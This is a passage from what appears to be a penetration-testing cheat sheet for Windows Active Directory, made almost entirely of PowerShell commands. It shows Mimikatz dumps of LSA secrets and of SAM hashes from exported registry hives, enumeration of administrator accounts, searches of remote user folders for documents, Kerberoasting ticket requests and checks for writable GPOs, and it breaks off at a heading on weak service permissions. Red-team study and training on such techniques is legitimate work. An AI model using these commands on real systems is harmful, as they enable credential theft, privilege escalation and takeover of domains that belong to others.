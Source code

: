 ```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### 3.2 Dump SAM Hashes&#x20;

* **Export SAM and SYSTEM Hive**:

```powershell
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
```

* **Load Hives and Dump Hashes**:

```powershell
Invoke-Mimikatz -Command '"lsadump::sam /system:system.hiv /sam:sam.hiv"'
```

## 4. Privilege Escalation&#x20;

#### 4.1 Find Privileged Accounts&#x20;

* **Find Accounts with Admin Rights**:

```powershell
Get-NetLocalGroupMember -GroupName Administrators -ComputerName <ComputerName>
```

#### 4.2 Search for Sensitive Files&#x20;

* **Search for Sensitive Files on Remote Machine**:

```powershell
Invoke-FileFinder -ComputerName <ComputerName> -Path "C$\Users\*\Documents" -FileName *.txt,*.xls,*.pdf
```

#### 4.3 Kerberoasting&#x20;

* **Request Service Tickets for Kerberoasting**:

```powershell
Add-Type -AssemblyName System.IdentityModel
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
$ServiceAccounts | ForEach-Object { Get-SPNTicket -SPN $_.ServicePrincipalName }
```

#### 4.4 Abuse GPO Permissions&#x20;

* **Check for Write Permissions on GPO**:

```powershell
Get-DomainGPO | Get-ObjectAcl | Where-Object { $_.ActiveDirectoryRights -match "WriteProperty" }
```

#### 4.5 Abuse Weak Service Permissions&#x20;
